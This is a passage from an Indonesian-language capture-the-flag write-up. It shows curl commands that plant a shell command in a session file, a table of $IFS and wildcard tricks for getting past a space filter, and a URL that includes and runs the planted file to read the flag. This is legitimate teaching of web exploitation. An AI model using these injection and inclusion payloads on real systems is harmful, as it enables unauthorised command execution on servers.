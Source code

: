 Untuk metode injeksi *shell command* caranya sama dengan sebelumnya. Dengan menggunakan `curl` dan tentunya dengan `sessid` ditambah ekstensi `.sh` baru agar mengosongkan perintah sebelumnya:

	curl 'https://school.fluxfingers.net:1503/?sessid=2cac3786464ebcfd2bda52d82d7c649bf8d334af71073ebd1ff3bb7193e9.sh' --data 'msg=cat flag;'
	
Perlu diketahui, dengan mengirimkan perintah `cat flag;` akan sia-sia, karena perintah mengandung karakter spasi yang otomatis akan dipotong menjadi `cat` saja.

Bagaimana caranya agar dapat mengirimkan perintah `cat flag;` yang notabene mengandung spasi? Dengan mengganti spasi dengan karakter `%20` pun akan sia-sia, karena akan tetap menjadi `cat%20flag;`.

Beruntung ada variabel `$IFS` yang dapat disisipkan diantara perintah `cat` dan `file`. Namun setelah eksperimen, ternyata ada pengecualian terhadap penggunaan `$IFS`. Lihat tabel di bawah:

| Command       | Okay? | Reason                                                                                                    |
|:--------------|:------|:----------------------------------------------------------------------------------------------------------|
| `cat$IFSflag` | No    | *idk*                                                                                                     |
| `cat$IFS*`    | No    | Fungsi `filter_nonalpha` hanya mengijinkan `a-zA-Z0-9.!$;?_`                                              |
| `cat$IFS????` | Yes   | `?` merupakan *wildcard* yang akan mewakili *file* yang memiliki panjang nama sesuai jumlah banyaknya `?` |

Setelah tahu bahwa perintah `cat$IFS????` dapat digunakan, lanjutkan membuat *shell command* tersebut. Dengan menggunakan `curl` dan tentunya dengan `sessid` ditambah ekstensi `.sh` baru agar mengosongkan perintah sebelumnya:

	curl 'https://school.fluxfingers.net:1503/?sessid=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf.sh' --data 'msg=cat$IFS????;'

![Flag](img/10.png)

Kemudian eksekusi *shell command* tersebut pada URL:

	https://school.fluxfingers.net:1503/?DOCUMENT_ROOT=/var/sessions&page=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf&sessid=179face5a3611e9ee18971df159e9095df52cd2379529017d0d6b40ee6cf.sh
	
Hasilnya:

![Final flag](img/11.png)
